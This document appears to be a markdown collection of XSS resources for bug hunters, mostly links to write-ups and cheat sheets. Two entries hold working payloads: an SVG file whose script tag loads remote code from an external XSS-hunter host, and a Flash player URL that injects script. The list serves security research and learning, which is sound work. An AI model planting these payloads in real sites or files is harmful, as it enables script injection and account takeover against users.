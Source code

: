 ## 1. Browser's XSS Filter Bypass Cheat Sheet

https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet

## 2. Stored XSS using file upload
https://medium.com/@vis_hacker/how-i-got-stored-xss-using-file-upload-5c33e19df51e

## 3. XSS Through Parameter Pollution
https://infosecwriteups.com/xss-through-parameter-pollution-9a55da150ab2

## 4. XSS via HTTP Headers
https://brutelogic.com.br/blog/xss-via-http-headers/

## 5. Blind XSS in svg file
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
  "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg width="200"
       height="200"
       zoomAndPan="disable"
       xmlns="http://www.w3.org/2000/svg"
       xmlns:xlink="http://www.w3.org/1999/xlink"
       xml:space="preserve">
    <!-- Script linked from the outside-->
    <script xlink:href="https://smaul1.xss.ht" />
    <script>
      //<![CDATA[
        alert("Smaul");
      ]]>
    </script>
  </svg>
  ```

## 6. PostMessage XSS
```
https://medium.com/@youghourtaghannei/postmessage-xss-vulnerability-on-private-program-18e773e1a1ba
```
## 7. Flash Based Reflected XSS
```
http://www.domain.com/jwplayer/player.swf?playerready=alert(document.domain)
```
https://hackerone.com/reports/859806

## 8. XSS in .Net
https://blog.isec.pl/all-is-xss-that-comes-to-the-net/

## 9. DOMXSS WIKI
https://github.com/wisec/domxsswiki/wiki

## 10. Reflected XSS Through Insecure Dynamic Loading
https://infosecwriteups.com/reflected-xss-through-insecure-dynamic-loading-dbf4d33611e0

## 11. Uber Bug Bounty: Turning Self-XSS into Good-XSS
https://whitton.io/articles/uber-turning-self-xss-into-good-xss/

## 12. Multi Domain DOM Cross Site Scripting
https://coffeejunkie.me//Multi-Domain-DOM-Cross-Site-Scripting/

## 13. Hunting for XSS with CodeQL
https://medium.com/codex/hunting-for-xss-with-codeql-57f70763b938

## 14. PNG IDAT chunks XSS payload generator
https://github.com/vavkamil/xss2png

## 15. XSS to Account takeover in payu.in
https://blog.amanrawat.in/2021/02/01/xss-to-account-takeover-payu.html




